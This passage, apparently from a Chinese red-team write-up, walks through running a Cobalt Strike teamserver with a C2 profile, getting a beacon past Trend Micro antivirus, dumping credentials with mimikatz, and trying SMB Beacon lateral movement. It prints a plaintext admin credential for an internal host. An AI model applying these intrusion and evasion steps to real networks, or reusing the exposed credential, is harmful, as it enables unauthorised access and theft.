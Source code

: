 然后在启动 CS 的时候指定此 C2 profile：

```
nohup ./teamserver 47.x.x.x password c2.profile &
```

此时当团队服务器启动，其就会使用提供的 keystore 并启用 SSL 文件托管。

**reverse_https 监听器**

创建一个 `reverse_https` 的监听器，在 `HTTPS Hosts` 和 `HTTPS Host(stager)` 以及 `HTTPS Host Header` 这里指定域名：


![title](https://leanote.com/api/file/getImage?fileId=5efbf8e8ab64411c280004ee)

**Scripted Web Delivery**


![title](https://leanote.com/api/file/getImage?fileId=5efbf8f4ab64411e26000467)

然后这个 ps 命令去上线，就可以过趋势正常上线并且正常通信。

至此 AD2 Cobalt Strike 上线成功。


# 0x07  一个乌龙 - 192.168.0.131

在 AD2 的 Beacon Shell 中使用命令进行查看，发现域控用户有进程，于是使用 mimikatz 进行凭据抓取。结果除了跑出来两个域管账号之外，还跑出来了 192.168.0.131 的凭据。

![title](https://leanote.com/api/file/getImage?fileId=5efbf93bab64411e2600046b)



这个机器 HFANGDICHAN-SHARE 开了 445 和 139 端口，但是没有开 135 端口。445 端口的 banner 信息显示其为 Windows 2008 R2 机器。

所以无法使用 wmiexec 脚本，因为 wmi 依赖 135 端口。但是看上去可以使用 SMB Beacon，因为满足：

- 445 端口开放
- 抓取到了欲横向主机的凭据，并且是 administrator 权限

```
192.168.0.131\192.168.0.131\admin Qnap@dm!n
```

对这个 SHARE 主机我产生了好奇，想通过 SMB Beacon link 上去试试。但是在进行凭据填充的时候遇到了以下报错：


![title](https://leanote.com/api/file/getImage?fileId=5efbf9afab64411c280004f9)


根据报错显示共享服务器未共享 `ADMIN$` 和 `IPC$` 资源。（参考：[The server is not configured for remote administration.](http://intelligentsystemsmonitoring.com/knowledgebase/windows-operating-system/the-server-is-not-configured-for-remote-administration-6773/)）

查看 192.168.0.131 开放的共享：

```
beacon> net share \\192.168.0.131

Shares at \\192.168.0.131:

 Share name                       Comment
 ----------                       -------
 Web                              System default share
 Public                           System default share
 DTGO Share                       
 Multimedia                       System default share
 homes                            System default share
 00-Restore                       
 Download                         System default share
 IPC$                             IPC Service ()
```
